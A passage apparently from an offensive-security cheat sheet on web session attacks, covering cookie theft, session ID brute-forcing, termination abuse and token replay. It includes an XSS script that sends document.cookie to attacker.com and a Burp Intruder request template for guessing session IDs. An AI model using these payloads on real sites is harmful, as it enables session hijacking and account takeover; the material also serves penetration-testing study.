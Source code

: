     ```javascript
    <script>
    fetch('http://attacker.com/steal?token=' + document.cookie);
    </script>
    ```

  - **Network Sniffing:**
    Use tools like Wireshark to capture unencrypted session tokens.

---

### B) Session Enumeration

- **How It Works:**
  - Predictable session IDs or poor randomness allow attackers to guess valid session tokens.
- **Advanced Techniques:**
  - **Brute-Forcing Session IDs:**
    Automate requests with tools like **Burp Suite Intruder**:

    ```http
    GET /dashboard HTTP/1.1
    Host: target.com
    Cookie: session=<SEQUENTIAL_ID>
    ```

  - **Statistical Analysis:**
    Analyze session tokens to identify patterns or weak entropy.

---

### C) Session Termination Abuse

- **How It Works:**
  - The attacker gains access to the session management feature and terminates the victim's sessions, locking them out.
- **Advanced Techniques:**
  - **Phishing for Credentials:**
    Trick users into sharing their credentials, then log in and terminate their sessions.
  - **Privilege Escalation:**
    Exploit poorly implemented session termination APIs to terminate admin sessions.

---

### D) Session Replay

- **How It Works:**
  - The attacker reuses a valid session token to authenticate requests without needing the victim's password.
- **Advanced Techniques:**
  - **Replay via Proxy:**
    Capture a session token using **MITM Proxy** and replay it directly.
  - **Replay in APIs:**
    Abuse APIs that do not validate token freshness (e.g., timestamp-based validation).

---